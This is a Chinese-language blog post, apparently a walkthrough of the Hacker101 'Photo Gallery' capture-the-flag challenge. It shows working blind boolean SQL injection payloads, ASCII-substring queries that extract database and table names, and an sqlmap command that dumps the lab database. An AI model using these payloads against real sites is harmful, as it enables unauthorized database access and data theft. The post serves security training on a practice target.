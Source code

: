 ```yaml
---
title: hacker101-photo gallery
date: 2019-07-04 10:50:55
tags: 
category: walkthrough
---
```

无回显的 Boolean 型 SQL 注入
<!-- more -->
# 测试
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1 ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1' and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1" and 1=1-- ==> 500
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=1-- ==> 200
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and 1=2-- ==> 404
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=1 -- => 404
...
http://35.190.155.168/1a4eaa7b69/fetch?id=1 and LENGTH(database())=6 -- => 200

```

# 渗透
1. 找出当前表字段
```
http://35.190.155.168/1a4eaa7b69/fetch?id=1%20%20order%20by%201%23 => 200

and order by 1 #

当前表只有一个字段
```
2. 找出数据库名
```
select ascii(substring((select database()),[0-9],1))=[ascii码];
```

3. 找出表名
```
select table_name from information_schema.tables where table_schema="blog" limit 0,1 ; # 第一张表
select table_name from information_schema.tables where table_schema="blog" limit 1,1 ; # 第二张表
```

4. 找出用户名和密码
```
select ascii(substring((select user()),[0-9],1))=[ascii码];
```

# walkthrough 
1. 直接使用 burp 进行测试,其请求的 url 构造如下
```
%20and%20(select%20ascii(substring((select%20database()),1,1)))=11--
```
![photo1](/postimg/photo1-1.png)
![photo1](/postimg/photo1-2.png)
![photo1](/postimg/photo1-3.png)
![photo1](/postimg/photo1-4.png)
![photo1](/postimg/photo1-5.png)

第一步结果得出数据库名为 `level5`

2. 得出当前表名，其 url 构造如下
```
%20and%20(select%20ascii(substring((select table_name from information_schema.tables where table_schema="level5" limit 0,1),$_$,1)))=$_$ --
```

得出第一张的表名：albums

3. 使用 sqlmap 进行渗透
```
python sqlmap.py -u http://35.227.24.107/bb66c5a931/fetch\?id\=2 -p id -o --random-agent -D level5 --dump --threads 10
```